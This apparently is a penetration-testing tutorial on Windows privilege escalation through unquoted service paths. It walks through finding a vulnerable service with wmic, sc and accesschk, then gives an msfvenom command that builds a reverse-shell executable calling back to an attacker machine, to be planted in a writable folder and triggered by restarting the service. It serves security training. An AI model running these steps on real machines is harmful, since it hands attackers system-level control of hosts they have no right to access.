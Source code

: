 ### Finding Unquoted Service Path Vulnerabilities

Tools like winPEAS and PowerUp.ps1 will usually detect unquoted service paths. But we will need to make sure other requirements to exploit the vulnerability are filled. These are;

    Being able to write to a folder on the path
    Being able to restart the service
If either of these conditions is not met, successful exploitation may not be possible. 

The command below will list services running on the target system. The result will also print out other information, such as the display name and path. 

```
wmic service get name,displayname,pathname,startmode
```

The command may show some Windows operating system folders. As you will not have "write" privileges on those with a limited user, these are not valid candidates.


Going over the output of this command on the target machine, you will notice that the `"unquotedsvc"` service has a path that is not written between quotes. 


Once we have located this service, we will have to make sure other conditions to exploit this vulnerability are met.


You can further check the binary path of this service using the command below: 

```
sc qc unquotedsvc
```

Once we have confirmed that the binary path is unquoted, we will need to check our privileges on folders in the path. Our goal is to find a folder that is writable by our current user. We can use accesschk.exe with the command below to check for our privileges.

```
.\accesschk64.exe /accepteula -uwdq "C:\Program Files\"

```

The output will list user groups with read (R) and write (W) privileges on the "Program Files" folder.

We now have found a folder we can write to. As this folder is also in the service's binary path, we know the service will try to run an executable with the name of the first word of the folder name. 

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.0.0.1 LPORT=1337 -f exe > executable_name.exe
```

The command above will generate a reverse shell. This means that it will try to connect back to our attacking machine. We will need to launch Metasploit or Ncat and configure it to accept incoming connection.

Once you have generated and moved the file to the correct location on the target machine, you will need to restart the vulnerable service.

